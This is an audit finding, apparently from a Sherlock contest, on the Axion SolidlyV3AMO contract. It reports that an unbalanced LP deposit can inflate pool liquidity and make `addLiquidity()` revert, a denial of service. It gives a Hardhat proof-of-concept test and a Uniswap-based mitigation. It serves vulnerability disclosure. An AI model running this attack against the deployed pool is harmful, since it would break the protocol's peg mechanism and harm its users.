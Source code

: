 Fast Lemonade Hawk

High

# Liquidity is incorrectly calculated during `addLiquidity()` for SolidlyV3AMO, causing DoS.


### Summary

SolidlyV3 has the same liquidity calculation as UniswapV3. Currently, when adding liquidity, the liquidity calculation is wrong, and may lead to DoS in some cases.

### Root Cause

When calling `addLiquidity`, the amount of liquidity that is suppose to add is calculated by `liquidity = (usdAmount * currentLiquidity) / IERC20Upgradeable(usd).balanceOf(pool);`. This is incorrect in the terms of UniswapV3, because there may be multiple tickLower/tickUpper positions covering the current tick.

Also, since anyone can add a LP position to the pool, so attackers can easily DoS this function.

Consider an attacker adds an unbalanced LP position that deposits a lot of Boost tokens but doesn't deposit USD tokens. This would increase the total liquidity, and inflate the amount of `liquidity` calculated in the above formula, which would lead to an increase of USD tokens required to mint the liquidity.

When the amount of requried USD token is above the approved `usdAmount`, the liquidity minting would fail.

See the following PoC section for a more detailed example.

```solidity
    function _addLiquidity(
        uint256 usdAmount,
        uint256 minBoostSpend,
        uint256 minUsdSpend,
        uint256 deadline
    ) internal override returns (uint256 boostSpent, uint256 usdSpent, uint256 liquidity) {
        // Calculate the amount of BOOST to mint based on the usdAmount and boostMultiplier
        uint256 boostAmount = (toBoostAmount(usdAmount) * boostMultiplier) / FACTOR;

        // Mint the specified amount of BOOST tokens to this contract's address
        IMinter(boostMinter).protocolMint(address(this), boostAmount);

        // Approve the transfer of BOOST and USD tokens to the pool
        IERC20Upgradeable(boost).approve(pool, boostAmount);
@>      IERC20Upgradeable(usd).approve(pool, usdAmount);

        (uint256 amount0Min, uint256 amount1Min) = sortAmounts(minBoostSpend, minUsdSpend);

@>      uint128 currentLiquidity = ISolidlyV3Pool(pool).liquidity();
@>      liquidity = (usdAmount * currentLiquidity) / IERC20Upgradeable(usd).balanceOf(pool);

        // Add liquidity to the BOOST-USD pool within the specified tick range
        (uint256 amount0, uint256 amount1) = ISolidlyV3Pool(pool).mint(
            address(this),
            tickLower,
            tickUpper,
            uint128(liquidity),
            amount0Min,
            amount1Min,
            deadline
        );
        ...
    }
```

- https://github.com/sherlock-audit/2024-10-axion/blob/main/liquidity-amo/contracts/SolidlyV3AMO.sol#L186

### Internal pre-conditions

N/A

### External pre-conditions

N/A

### Attack Path

Attackers can brick addLiquidity function by depositing LP.

### Impact

Attackers can deposit LP to make add liquidity fail, which also makes `mintSellFarm()` fail. This is an important feature to keep Boost/USD pegged, thus a high severity issue.

This is basically no cost for attackers since the Boost/USD will always go back to 1:1 so no impermanent loss is incurred.

### PoC

Add the following code in SolidlyV3AMO.test.ts. It does the following:

1. Add unbalanced liquidity so that total liquidity increases, but USD.balanceOf(pool) does not increase.
2. Mint some USD to SolidlyV3AMO for adding liquidity.
3. Try to add liquidity, but it fails due to incorrect liquidity calculation (tries to add too much liquidity for not enough USD tokens).

```solidity
      it("Should execute addLiquidity successfully", async function() {
        // Step 1: Add unbalanced liquidity so that total liquidity increases, but USD.balanceOf(pool) does not increase.
        {
          // -276325 is the current slot0 tick.
          console.log(await pool.slot0());
          await boost.connect(boostMinter).mint(admin.address, boostDesired * 100n);
          await testUSD.connect(boostMinter).mint(admin.address, usdDesired * 100n);
          await boost.approve(poolAddress, boostDesired * 100n);
          await testUSD.approve(poolAddress, usdDesired * 100n);
          console.log(await boost.balanceOf(admin.address));
          console.log(await testUSD.balanceOf(admin.address));
          await pool.mint(
            amoAddress,
            -276325 - 10,
            tickUpper,
            liquidity * 3n,
            0,
            0,
            deadline
          );
          console.log(await boost.balanceOf(admin.address));
          console.log(await testUSD.balanceOf(admin.address));
        }

        // Step 2: Mint some USD to SolidlyV3AMO for adding liquidity.
        await testUSD.connect(admin).mint(amoAddress, ethers.parseUnits("1000", 6));
        const usdBalance = await testUSD.balanceOf(amoAddress);

        // Step 3: Add liquidity fails due to incorrect liquidity calculation.
        await expect(solidlyV3AMO.connect(amo).addLiquidity(
          usdBalance,
          1,
          1,
          deadline
        )).to.emit(solidlyV3AMO, "AddLiquidity");
      });
```

### Mitigation

Use the UniswapV3 library for calculating liquidity: https://github.com/Uniswap/v3-periphery/blob/main/contracts/libraries/LiquidityAmounts.sol#L56

```solidity
    function getLiquidityForAmounts(
        uint160 sqrtRatioX96,
        uint160 sqrtRatioAX96,
        uint160 sqrtRatioBX96,
        uint256 amount0,
        uint256 amount1
    ) internal pure returns (uint128 liquidity) {
        if (sqrtRatioAX96 > sqrtRatioBX96) (sqrtRatioAX96, sqrtRatioBX96) = (sqrtRatioBX96, sqrtRatioAX96);

        if (sqrtRatioX96 <= sqrtRatioAX96) {
            liquidity = getLiquidityForAmount0(sqrtRatioAX96, sqrtRatioBX96, amount0);
        } else if (sqrtRatioX96 < sqrtRatioBX96) {
            uint128 liquidity0 = getLiquidityForAmount0(sqrtRatioX96, sqrtRatioBX96, amount0);
            uint128 liquidity1 = getLiquidityForAmount1(sqrtRatioAX96, sqrtRatioX96, amount1);

            liquidity = liquidity0 < liquidity1 ? liquidity0 : liquidity1;
        } else {
            liquidity = getLiquidityForAmount1(sqrtRatioAX96, sqrtRatioBX96, amount1);
        }
    }

```